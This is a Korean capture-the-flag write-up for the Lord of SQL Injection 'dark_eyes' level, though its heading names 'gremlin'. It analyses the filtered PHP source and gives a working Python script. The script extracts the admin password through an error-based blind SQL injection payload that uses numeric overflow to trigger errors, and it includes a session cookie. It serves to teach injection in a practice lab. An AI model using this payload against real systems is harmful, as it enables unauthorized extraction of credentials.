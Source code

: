 # Lord of SQL Injection No.1 - gremlin
## 문제 출제 의도 
error가 표시되지 않는 error를 발생시켜 원하는 값을 전달할 수 있는지 확인한다.
## 소스 코드 분석
```php
<?php
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/col|if|case|when|sleep|benchmark/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(mysql_error()) exit();
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("dark_eyes");
  highlight_file(__FILE__);
?>
```
~~~
if(preg_match('/col|if|case|when|sleep|benchmark/i', $_GET[pw]))
~~~
+ if를 사용하지 못한다.
~~~
if(mysql_error()) exit();
~~~
+ error를 표시하지 않고 끝낸다.
+ 역발상을 해서 오류가 아닐 때를 찾아낸다.
## Solution
1. python 코드 이용
```python
import urllib.request
from urllib.parse import quote

key = ""

for i in range(1,10):
    for j in range(48, 127):
        url = "http://los.eagle-jump.org/dark_eyes_a7f01583a2ab681dc71e5fd3a40c0bd4.php?pw="
        data = "' or id='admin' and (((substr(pw, {}, 1)='{}')+1)*9e307)#".format(str(i), chr(j))
        print(data)
        data = quote(data)

        re = urllib.request.Request(url + data)
        re.add_header("User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.75 Safari/537.36")
        re.add_header("Cookie", "PHPSESSID=4csf3od9cfat47akhjak8okpi6")

        res = urllib.request.urlopen(re)

        if str(res.read()).find("query") == -1:
            key += chr(j).lower()
            print(key)
            break
print(key)
```
코드를 통하여 알아낸 값 5a2f5d3c를 pw값으로 전달해주면 문제가 풀린다.